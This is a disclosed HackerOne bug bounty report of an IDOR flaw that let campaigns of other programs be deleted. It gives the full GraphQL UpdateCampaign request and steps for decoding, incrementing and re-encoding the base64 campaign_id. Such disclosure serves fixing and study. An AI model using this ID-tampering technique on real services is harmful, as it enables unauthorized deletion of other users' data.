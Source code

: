 # Insecure Direct Object Reference (IDOR) - Delete Campaigns  

## Report Details
- **Report ID**: 1969141
- **URL**: https://hackerone.com/reports/1969141
- **State**: Closed
- **Severity**: high
- **Submitted**: 2023-05-02T03:56:11.772Z
- **Disclosed**: 2023-05-03T11:47:26.684Z

## Reporter
- **Username**: datph4m
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
Hi Team, 

I think I can delete any Campaigns based on campaign_id


### Steps To Reproduce

Follow the POST request below

````
POST /graphql HTTP/2
Host: hackerone.com
Cookie: yourcookie
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://hackerone.com/organizations/opensea_demo/campaigns/242/edit
Content-Type: application/json
X-Csrf-Token: ███
X-Product-Area: campaigns
X-Product-Feature: edit
X-Datadog-Origin: rum
X-Datadog-Parent-Id: 9027318766950450042
X-Datadog-Sampling-Priority: 1
X-Datadog-Trace-Id: 87799383677632658
Content-Length: 851
Origin: https://hackerone.com
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

{"operationName":"UpdateCampaign","variables":{"product_area":"campaigns","product_feature":"edit","input":{"campaign_id":"Z2lkOi8vaGFja2Vyb25lL0NhbXBhaWduLzI0NA==","team_id":"Z2lkOi8vaGFja2Vyb25lL0VuZ2FnZW1lbnRzOjpCdWdCb3VudHlQcm9ncmFtLzU3MzI4","bounty_table_row_id":"Z2lkOi8vaGFja2Vyb25lL0JvdW50eVRhYmxlUm93LzEwODM2","start_date":"2023-05-05T09:00:00Z","end_date":"2023-05-08T05:00:00Z","critical":3,"high":2,"medium":1.5,"low":1.5,"structured_scope_ids":[],"researchers_information":"ccccccccccccccc"}},"query":"mutation UpdateCampaign($input: UpdateCampaignInput!) {\n  updateCampaign(input: $input) {\n    was_successful\n    errors {\n      edges {\n        node {\n          id\n          type\n          field\n          message\n          __typename\n        }\n        __typename\n      }\n      __typename\n    }\n    __typename\n  }\n}\n"}

````

Decode base64 of campaign_id to get **gid://hackerone/Campaign/244**

Increase or decrease the number after Campaign and re-encode it with base64

At the campaign_id parameter in the request change it to another program's ongoing campaign_id parameter.

Then send Campaign request of any program to be deleted.

## Impact

Can delete all Campaign on hackerone or any program

## Attachments
No attachments
